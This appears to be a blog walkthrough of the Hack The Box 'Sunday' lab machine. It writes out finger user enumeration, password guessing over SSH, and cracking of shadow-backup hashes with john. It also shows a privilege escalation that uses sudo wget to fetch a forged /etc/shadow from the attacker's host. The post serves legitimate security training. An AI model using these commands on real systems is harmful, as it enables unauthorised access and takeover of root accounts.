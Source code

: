 ```yaml
---
layout: post
title: "Sunday"
categories: HTB-Walkthrough
---
```


![sunday](/assets/img/sunday/sunday1.png)


`nmap -sV -Pn -v 10.10.10.76 |tee -a sun.txt`

```

PORT    STATE SERVICE VERSION
79/tcp  open  finger  Sun Solaris fingerd
111/tcp open  rpcbind 2-4 (RPC #100000)
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos

```

Use [finger](https://www.tutorialspoint.com/unix_commands/finger.htm) to see who's logged on.

```
root@kali:~/HTB/vip/sunday# finger @10.10.10.76
No one logged on
```

[PentestMonkey](http://pentestmonkey.net/tools/finger-user-enum/finger-user-enum-1.0.tar.gz) has a good perl script
to enumerate users.

```
root@kali:~/HTB/vip/sunday/finger-user-enum-1.0# perl finger-user-enum.pl -t 10.1
0.10.76 -U /root/wordlists/rockyou.txt 
```

2 usernames are found

`sammy`
`sunny`



Manually testing the password, sometimes using the name of the box can come up trumps!

```
ssh sunny@10.10.10.76 -p 22022


Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1

```


Try again:


```
root@kali:~/HTB/prep/sunday# ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sunny@10.10.10.76 -p22022
```

The password `sunday` works!





```
sunny@sunday:~$ uname -a
SunOS sunday 5.11 snv_111b i86pc i386 i86pc Solaris
```

One of the first commands to try on machines that might have `sudo` running is 
`sudo -l`, to list the commands the user can run as root.

```
sunny@sunday:~$ sudo -l                                                                                            
User sunny may run the following commands on this host:                                                            
    (root) NOPASSWD: /root/troll                                                                                   
sunny@sunday:~$        
```

Interesting...

```
sunny@sunday:~$ cat /root/troll                                                                                    
cat: /root/troll: Permission denied                                                                                
sunny@sunday:~$ ls -la /root                                                                                       
ls: cannot open directory /root: Permission denied   
```

So we can execute a file that we can't read!



Searching `/` folder, we find an interesting backup file.

![shadow-backup](/assets/img/sunday/sunday-found-shadowbackup.png)


Copy the hashes to hash.txt and let john do the legwork!


```

john hash.txt --wordlist=/root/wordlists/rockyou.txt
 
Loaded 2 password hashes with 2 different salts (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status

sunday           (sunny)
cooldude!        (sammy)

2g 0:00:07:54 100% 0.004215g/s 429.1p/s 434.1c/s 434.1C/s coolster..colima1
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

we can ssh in again as `sammy` with the password `cooldude!`

```
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sammy@10.10.10.76 -p22022
```

We can grab the user flag from Sammy's Desktop:

```
sammy@sunday:~/Desktop$ cat user.txt
a3xxxxxxxxxxxxxxxxxxxxxxxxxxxx98
sammy@sunday:~/Desktop$ 
```

<h3>Privilege Escalation</h3>


Running `sudo -l` again as sammy, to see what this user can do as root:

```
sammy@sunday:~/Desktop$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
```

the `-O` flag in wget commands will write out to a desired location, we can do this as root with `sammy`

Copy the shadow.backup contents to the Kali machine, save the file as `shadow`,

add an entry for root at the bottom, copying the password hash for sunny (sunday) to the entry.

![shadowroot](/assets/img/sunday/sunday-shadowroot.png)

serve the file with python web server
```
python3 -m http.server 80
```



Use the `sudo wget` command to replace the existing /etc/shadow file with the modified one, and root's password will now be 'sunday',
and we can just su root to get the root-shell.


```
sudo wget -O /etc/shadow http://10.10.14.17/shadow
```

Now get root.

```
sammy@sunday:/etc$ su root
Password: 

sammy@sunday:/etc# id
uid=0(root) gid=0(root)
sammy@sunday:/etc# clear
sammy@sunday:/etc# cd /root
sammy@sunday:/root# cat root.txt
fbxxxxxxxxxxxxxxxxxxxxxxxxxxxxb8
```

:)
